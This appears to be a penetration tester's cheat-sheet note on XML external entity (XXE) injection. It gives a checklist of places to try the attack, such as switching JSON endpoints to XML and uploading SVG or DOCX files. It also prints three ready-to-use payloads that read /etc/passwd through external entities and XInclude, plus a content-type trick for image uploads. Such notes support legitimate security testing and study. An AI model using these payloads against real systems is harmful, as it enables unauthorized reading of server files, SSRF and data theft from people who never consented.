 [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)


**Check:**

- XXE if an application references XML formatted data.
- If you think an endpoint is only accepting JSON, try to switch to XML and check if the application still accepts it.
- SVG uploads (try even if the form says png only)
- DOCX uploads

**Potential impact**

- View files on target server
- SSRF
- Exfiltrate Data

**Basic payload** - file inclusion

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (\#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

**Ensure you’re following the applications expected format**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```

**File Upload**
Intercept image upload, change content type header, and file extension to svg
```
Content-Type: image/svg+xml
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-svg
![](../../assets/Pasted%20image%2020250629162451.png)

**Via XInclude**
Request is sending data in payload, we can potentially replace the data with XInclude to achieve file inclusion
Payload
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
![](../../assets/Pasted%20image%2020250629163247.png)